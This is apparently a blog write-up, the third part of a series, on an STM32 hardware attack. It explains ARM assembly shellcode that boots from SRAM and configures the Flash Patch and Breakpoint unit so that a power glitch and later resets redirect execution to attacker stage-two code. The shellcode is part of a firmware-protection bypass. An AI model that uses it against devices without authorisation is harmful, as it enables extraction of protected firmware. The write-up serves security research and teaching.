



# A QUICK(ish) LOOK AT STM32 HARDWARE SECURITY (PART 3)

***31/12/21***

***Follow up from [part 2](./cve-2020-13466-1.md). I will be taking a look at SRAM shellcode that configure BFP.***

## 1. Entry

The entry point and BFP configuration code is all in this assembly file. The other c code file is only for control shell, thus not important to our goal here.

This is a custom interrupt vector table. Remember that because we are booting from SRAM, it will be aliased to addess 0x0. And the first ection is interrupt vector table. Read \[[1]]\] chapter 10.1.2 for details.

```arm
isrVectors:
    .word 0x20005000
    .word _start+1
    .word vecNMI+1
    .word vecHardfault+1
    .word vecMemMan+1
    .word 0
    .word 0
    .word 0
    /* These is the stage 2 entry point */
    .word stage2+1
```

From this:

- Our entry is _start function
- All unexpected exception will call alert function
- Any syscall attempt with swi will call stage2 function

## 2. BFP briefing

Before getting into the source. We first take a look at BFP, there are little information about this within STM documentations. You can take a look at ARM\'s own Cortex-M3 technical reference \[[2]\], chapter 7.3, for a sumary of what BFP does. Further details can be found in ARMv7-M Architecture Reference Manual \[[3]\], chapter C1.11.

In short, BFP allow user to apply a patch to ROM using EEPROM or flash. This allow code patching after the device ROM is programmed and bugs are found in the ROM, without having to replace the whole device. A piece of startup code is needed to check if there are any patch data in programable ROM.

When the processor access memory location that matched by FPB comparator, the address is remapped (\[[2]\] - C7.3.1). How the shell code configure BFP will be described bellow.

## 3. Stages

### 3.1. _start

```arm
_start: /* stage 1 */
    ldr r0, =0xe0002000
    movs r1, #3                                                                                  
    movs r3, #0x05                                                                                  
    movs r2, #0x20                                                                               
    stm r0!, {r1, r2, r3}                                                                      
sinfl:  b sinfl
```

0xe0002000 is address of FlashPatch Control Register, FP_CTRL. Here 0x3 is written to enable FPB.




Next FP_REMAP register is written with 0x20, mark the start of the remap vector.



Lastly 0x5 is written to FP_COMP0, one of 8 supported comparator. Enable it to compare with address 0x4.

Now when FP_COMP0 is matched, it will pull FP_REMAP[0] address to remapped to, look at our ISR, 0x4 is reset and FP_REMAP[0] is stage2 address.

Mystery solved, this run after the power glitch.

### 3.2. stage2

```arm
stage2:
    /* Update the FPB */
    ldr r0, =0xe0002000
        movs r1, #3                                                                                  
        movs r3, #0x05                                                                                  
        movs r2, #0x20                                                                               
        stm r0!, {r1, r2, r3}                                                                      

    /* Set stack pointer */
    ldr r0, =isrVectors
    ldr r0, [r0]
    mov sp, r0

    cpsie if

    /* Configure VTOR */
    ldr r0, =0xe000ED08
    ldr r1, =isrVectors
    str r1, [r0]

    ldr r0, =_bss_end
    ldr r1, =_bss_start
    mov r3, #0

    clrloop:strd r3, r3, [r1]
    add r1, r1, #8
    cmp r1, r0
    bne clrloop

    bl main

    infloop:
    b infloop
```

This code run after we set boot mode back to boot from flash. BFP data remains and again reset by the first part of this shellcode. The latter part is for configuring for the main function. Not much to talk about.

## References

1. [STM32F1 Reference Manual](https://www.st.com/resource/en/reference_manual/cd00171190-stm32f101xx-stm32f102xx-stm32f103xx-stm32f105xx-and-stm32f107xx-advanced-arm-based-32-bit-mcus-stmicroelectronics.pdf)
2. [ARM Cortex-M3 Technical Reference Manual](https://documentation-service.arm.com/static/5e8e107f88295d1e18d34714)
3. [ARMv7-M Architecture Reference Manual](https://documentation-service.arm.com/static/5f8fef3af86e16515cdbf816?token=)

[1]: https://www.st.com/resource/en/reference_manual/cd00171190-stm32f101xx-stm32f102xx-stm32f103xx-stm32f105xx-and-stm32f107xx-advanced-arm-based-32-bit-mcus-stmicroelectronics.pdf
[2]: https://documentation-service.arm.com/static/5e8e107f88295d1e18d34714
[3]: https://documentation-service.arm.com/static/5f8fef3af86e16515cdbf816?token=